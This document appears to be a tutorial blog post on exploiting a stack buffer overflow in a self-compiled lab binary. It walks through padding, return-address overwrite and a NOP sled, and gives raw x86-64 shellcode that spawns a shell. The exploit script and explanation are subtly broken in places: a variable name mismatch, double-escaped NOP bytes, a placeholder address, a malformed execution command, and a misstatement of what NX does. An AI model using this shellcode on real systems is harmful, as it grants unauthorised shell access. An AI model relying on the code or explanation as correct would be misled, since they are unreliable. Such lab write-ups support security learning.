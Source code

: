Padding is the ammount of content that overwrite the buffer until before of top of stack.

This "overwirete_return_address" represent the address that start the target function that we want to be executed(real_name), its possible find this address in objdump with:

```
objdump -M intel -d vulnerable | grep -m 2 vuln
```
**Output**
```
vulnerable:
0000000000401176 <vuln>:
```

Note that is necessary put the address in bakwards because of the processor follow the little endian notation.

**Execution**
```
$HOME/file_path/vulnerable < python2 exploit.py
```

**Output**

```
Give me some input:
You say: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
You are right, my name is Eduardo
[1]    7836 segmentation fault (core dumped)
```

The "real_name" did executed, but the danger can be amplified if you put an shellcode it means amount machine code instruction that return execute ***/bin/bash*** and you can take a shell in target machine. so go build the exploit.

```
padding = "A" * 72

overwrite_return_address = "Previous address to top stack"

nop = "\\x90" * 60

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

print(padding + overwrite_return_address + nops + shellcode)
```
This exploit i was make some modifications, now, the override_return_address represent de address after the overwrite address in stack, that will repoainto to stack segment, and remenber, we compile this binary with NX(no execstack) protection it means that stack can execute intructions. use the nop instructions, that make anything, to avoid stack unalligment problems(I pretend talk about it in another post). 


If all happened following the plain, the signal "#" or "$" in the terminal has been disaper. And you are a new shell. 
